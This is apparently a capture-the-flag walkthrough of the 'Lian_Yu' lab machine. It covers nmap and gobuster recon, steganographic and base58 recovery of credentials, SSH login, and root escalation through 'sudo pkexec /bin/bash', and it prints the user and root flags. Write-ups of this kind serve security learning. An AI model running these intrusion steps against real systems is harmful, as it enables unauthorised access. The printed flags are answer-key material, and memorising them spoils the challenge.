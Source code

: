 ### lian_yu
## 9/18/20

### IP

IP `10.10.137.46`

### nmap scan

nmap scan
nmap -sC -sV -p- -oN nmap/initial 10.10.137.46

# Nmap 7.80 scan initiated Fri Sep 18 19:40:24 2020 as: nmap -sC -sV -oN nmap/initial 10.10.137.46
Nmap scan report for 10.10.137.46
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35556/udp   status
|   100024  1          49617/udp6  status
|   100024  1          53353/tcp6  status
|_  100024  1          60791/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 18 19:42:35 2020 -- 1 IP address (1 host up) scanned in 130.54 seconds

### gobuster scan
gobuster dir -u 10.10.137.46 -w /usr/share/wordlists/directory-list-2.3-medium.txt -o gobuster_scan.txt

/island (Status: 301)
/server-status (Status: 403)


#### gobuster scan of /island/2100
gobuster dir --url 10.10.137.46/island/2100 --wordlist /usr/share/wordlists/directory-list-2.3-medium.txt -x .ticket

/green_arrow.ticket
reveals RTy8yhBQdscX
convert from base58 !#th3h00d

### Hexedit

used hexedit to change the image Leave_me_alone.png (would not open)
password

### Steghide

used steghide on the aa.jpg
password

### Unzip ss

archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
[inflatus@cheese-shop gobuster]$ cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

[inflatus@cheese-shop gobuster]$ cat shado 
M3tahuman


### ssh with username and password
ssh 10.10.127.190
slade
M3tahuman

cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

### privesc

sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/bash


root@LianYu:~# ls -l
total 4
-rw-r--r-- 1 root root 340 May  1 07:17 root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE


